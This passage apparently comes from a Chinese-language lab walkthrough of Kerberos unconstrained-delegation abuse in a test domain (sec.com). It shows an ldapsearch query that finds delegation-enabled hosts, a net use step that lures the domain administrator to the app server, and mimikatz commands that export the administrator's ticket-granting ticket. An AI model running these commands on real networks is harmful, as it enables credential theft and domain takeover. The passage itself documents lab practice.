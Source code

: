 ![](../images/ff75f1cbf1a7e7aaae243f3abf1554ff.png)

```plain
(py38) C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"|grep dn:|grep WIN2022-APP-1
dn: CN=WIN2022-APP-1,CN=Computers,DC=sec,DC=com

```

2、诱使域管理员访问app机器

```plain
PS C:\Users\administrator\Desktop> net use \\win2022-app-1 /user:sec\administrator Az123456@
命令成功完成。
```

此时在APP主机就会有域管administrator的TGT

```plain
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
